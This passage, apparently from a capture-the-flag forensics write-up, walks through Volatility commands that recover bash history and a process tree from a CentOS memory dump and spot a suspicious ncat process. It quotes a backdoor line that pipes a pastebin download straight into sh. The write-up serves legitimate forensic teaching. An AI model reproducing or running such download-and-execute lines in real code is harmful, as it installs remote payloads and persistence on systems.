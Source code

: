 Finally, let's start digging. 

Here is the command we will use. 

python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash

- python2 volatility/vol.py = launch volatility. 
- -f c73-EZDump/dump.mem = specify the file to analyze
- --profile=LinuxCentos7_3_1062x64 = the created cutom profile 
- linux_bash = the command that allows to see the history of bash commands. 

![Q2](/assets/seized/Q2-seized.jpg)

## [](#header-2) Q3 : What is the PID of the suspicious process?

So first we need to list the processes with linux_pstree and see if any can be interpreted as odd or inappropriate. 
The command. 
```
python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree
```
<img src="/assets/seized/Q3-seized.png" alt="Kitten" title="img Q3" width="50%" height="50%" /> 

ncat ? weird isn't it ?

## [](#header-2) Q4 : The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

Remenber the bash history ? 
```
    2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
```
The attacker had to install elements of this guithub repository. 

Looking at the repository in the file app/snapshot.py we can see that the content of a pastebin has been downloaded.
```
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```
Go to the url and you have the flag. 
